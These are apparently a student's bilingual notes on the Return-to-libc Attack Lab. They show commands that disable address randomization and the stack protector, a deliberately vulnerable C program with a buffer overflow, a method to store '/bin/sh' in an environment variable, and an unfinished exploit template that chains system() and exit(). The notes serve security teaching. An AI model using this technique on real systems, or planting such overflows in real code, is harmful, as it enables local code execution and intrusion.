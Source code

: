 # Return to Libc Attack Lab

## 2 Lab Tasks

### 2.1 Turning off Countermeasures

`Address Space Randomization`: `$ sudo sysctl -w kernel.randomize_va_space=0`

`The StackGuard Protector Scheme`: `$ gcc -fno-stack-protector `

### 2.2 The Vulnerable Program

```c
/* retlib.c */
/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int bof(FILE *badfile)
{
	char buffer[12];
	/* The following statement has a buffer overflow problem */
	fread(buffer, sizeof(char), 40, badfile);
	return 1;
}
int main(int argc, char **argv)
{
	FILE *badfile;
	badfile = fopen("badfile", "r");
	bof(badfile);
	printf("Returned Properly\n");
	fclose(badfile);
	return 1;
}
```

### 2.3 Task 1: Finding out the addresses of libc functions

**using gdb**

### 2.4 Task 2: Putting the shell string in the memory

想要执行system函数，需要先给他传参数。这里采用环境变量的方法来进行此项操作，在shell中执行程序，shell会创建子进程来运行程序，而子进程继承shell所有的环境变量。通过以下方式验证。

设置环境变量

```shell
$ export MYSHELL=/bin/sh
$ env | grep MYSHELL
MYSHELL=/bin/sh
```

此环境变量的地址可以通过以下程序获得

```c
void main()
{
    char *shell = getenv("MYSHELL");
    if (shell)
        printf("%x\n", (unsigned int)shell)
}
```

如果关闭了地址随机化，每次都会得到一样的地址。然后在retlib程序中，此环境变量的地址并不一定是一样的。当你改变程序的名字时（改变字符个数），此地址会发生改变。好消息是，真实的地址就在这个地址附近。在gdb中，环境变量的地址也不一样。

### Task 3: Exploiting the Buffer-Overflow Vulnerability

```c
/* exploit.c */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    char buf[40];
    FILE *badfile;
    
    badfile = fopen("./badfile", "w");
	/* You need to decide the addresses and
	the values for X, Y, Z. The order of the following
	three statements does not imply the order of X, Y, Z.
	Actually, we intentionally scrambled the order. */
	*(long *) &buf[X] = some address ; // "/bin/sh" ✰
	*(long *) &buf[Y] = some address ; // system() ✰
	*(long *) &buf[Z] = some address ; // exit() ✰
	fwrite(buf, sizeof(buf), 1, badfile);
	fclose(badfile);
    
    return 0;
}
```

### Task 4: Turning on Address Randomization

开启了地址随机化后，system地址，环境变量的地址均发生变化。